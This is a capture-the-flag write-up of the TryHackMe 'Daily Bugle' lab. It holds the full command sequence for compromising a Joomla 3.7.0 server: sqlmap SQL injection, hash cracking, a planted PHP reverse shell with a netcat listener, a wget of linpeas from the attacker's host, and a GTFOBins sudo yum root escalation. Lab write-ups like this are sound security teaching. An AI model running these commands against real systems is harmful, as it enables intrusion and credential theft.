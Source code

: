 [<- home](/)

# Daily Bugle [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.127.134
```

Let's browse it:

```
firefox $targ3t
```
- Who robbed the bank?
__spiderman__

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

We observe three open ports: `22`, `3306`, `80`, which makes it `ssh`, `mysql` and `http` respectively. Let's start with `http`. We can see it runs on `Apache/2.4.6 (CentOS) PHP/5.6.40` and the CMS seems to be `Joomla`. `nmap` found a number of paths on this website, one of which works/has content (`/administrator`). Let's put it through `gobuster` and see what it finds:

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
```

It found a number of paths. Most of these `nmap` has already supplied, others are useless. Let's see if we can find a version of `Joomla` running on this server. Scans didn't reveal much unfortunately. I did some research online and apparently you can open `/language/en-GB/` path and check the `xml` file for version.

- What is the Joomla version?
__3.7.0__

Let's see what exploits are available for this one:

```
searchsploit Joomla 3.7.0
```

There's a text file:

```
searchsploit -m php/webapps/42033.txt
```

It details exploitation of password reset field through `sqlmap`:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

A number of databases have been revealed, one of which was `mysql`. Let's find out what tables it has:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D mysql --tables
```

A lot of tables, let's see if `users` has anything in it:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D mysql -T tables --dump
```

The process is slow, but 10% in, it seems like this is the wrong database. I ran parallel scan to try `joomla` database:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla --tables
```

This retrieved `#__users` table:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla -T '#__users' --dump
```

4% in -- we already have four columns: `id`, `name`, `username`, `email`. I'll let both scans finish. 

7% in, another column named `password` in the `joomla` database. Looks like this is the one. 

<sub>I took a shortcut over here and enumerated the password column directly after interrupting this scan</sub>

Enumarate password column:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla -T '#__users' -C password --dump
```

We got one password hash, so there has to be one username.

```
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

Enumerate username column:

```
sqlmap -u "http://10.10.127.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomla -T '#__users' -C username --dump
```

The resulting username is `jonah`.

Let's try to crack this hash:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

The resulting password appears to be `spiderman123`. Let's try it in `ssh`:

```
ssh jonah@targ3t
```

Didn't work. Let's try it on `/administrator`. 

And we're inside `Joomla` CMS interface. I wonder if we can sneak a PHP reverse shell somewhere in here. Maybe templates.

It appears we can modify `index.php` file and save it and then just request site's homepage. I'll just paste a pentest monkey reverse shell into it.

Start netcat listener:

```
nc -lvnp 9876
```

We got the shell, and we are user `apache`. 

```
find / -perm /4000 2>/dev/null
```

The list doesn't give away anything useful in terms of `gtfobins`.

```
cat /etc/crontab
```

Nothing here.

```
sudo -l
```

We can't use sudo. Let's try `linpeas`:

```
python -m http.server 8080
```

On the victim:

```
wget http://<My IP>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

CVEs didn't work, I didn't check everything. I realized as `apache` user I have access to `/var/www/html` and there I found I curious file `configuration.php`, which has a variable `$password` defined for user `root`:

```
nv5uz9r3ZEDzVjNu
```

Let's try to log in as root then:

```
su -
```

Looks like it's a `mysql` password:

```
mysql -u root -p mysql
show databases;
use mysql;
show tables;
select * from user;
select User, Password from user;
```

This is a password hash for user root, but I can't crack it for the life of me having tried many things. Instead I'll go back to the `configuration.php` password and try to use it for `jjameson` user.

Which... worked. For some reason.

```
cat /home/jjameson/user.txt
```

This user can run `yum` with sudo. There's a command sequence on `gtfobins`, that servers this purpose

So on a host machine:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Hit enter. This did the trick:

```
cat /root/root.txt
```
